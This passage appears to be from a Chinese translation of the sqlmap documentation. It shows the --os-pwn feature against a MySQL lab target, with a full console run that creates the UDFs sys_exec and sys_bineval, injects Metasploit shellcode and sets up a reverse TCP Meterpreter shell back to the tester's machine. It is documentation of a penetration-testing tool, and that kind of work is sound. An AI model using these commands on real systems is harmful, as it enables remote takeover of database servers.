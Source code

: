 这些技术在白皮书中很详细 [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857) 在幻灯片上 [Expanding the control over the operating system from the database](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database).

针对MySQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|
```